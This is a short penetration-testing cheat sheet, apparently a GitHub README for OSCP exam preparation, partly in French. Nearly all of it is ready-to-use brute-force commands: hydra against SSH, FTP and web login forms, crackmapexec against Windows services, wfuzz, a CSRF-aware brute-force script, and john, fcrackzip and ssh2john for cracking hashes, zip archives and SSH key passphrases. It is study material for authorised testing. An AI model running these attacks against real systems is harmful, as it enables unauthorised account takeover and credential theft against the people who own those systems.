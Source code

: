 <img src="https://github.com/florianges/Simple-OSCP-cheat-sheet/assets/64069514/41eded28-e1c7-48c9-b5b4-f1af03f808c3" height="180">

## Bruteforce SSH/FTP :
hydra -l [user] -P [wordlist] -s 22 -f [IP] [ssh/ftp]  

## Bruteforce service windows :
crackmapexec [mssql | winrm | smb | ssh] [IP] -u [wordlist user] -p [wordlist password]  

## Bruteforce sid :
lookupsid.py [user]@[IP]  

## Bruteforce login web :
hydra -l [user] -P [wordlist] [IP] http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V  
wfuzz -w [wordlist] -d "username=admin&password=FUZZ" --hh=[nombre de carateres de la réponse] [URL]  

**Bruteforce login web quand il y a un token CSRF :**  
python3 brutecsrf.py --url [url] --csrf [name csrf] --u [user] --fuser [name for username form] --passwd [name for password form] --w [wordlist]  
https://github.com/J3wker/Web-BruteForcer-Token-Support/blob/master/brutecsrf.py  
## Bruteforce hash :
sudo john hash.txt -wordlist=rockyou.txt  
## Bruteforce fichier zip :
fcrackzip [archive] -D -p [dictionnaire]  
## Bruteforce la passphrase d'une clée privée SSH :
1.	python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash  
2.	john id_rsa.hash -wordlist=rockyou.txt  
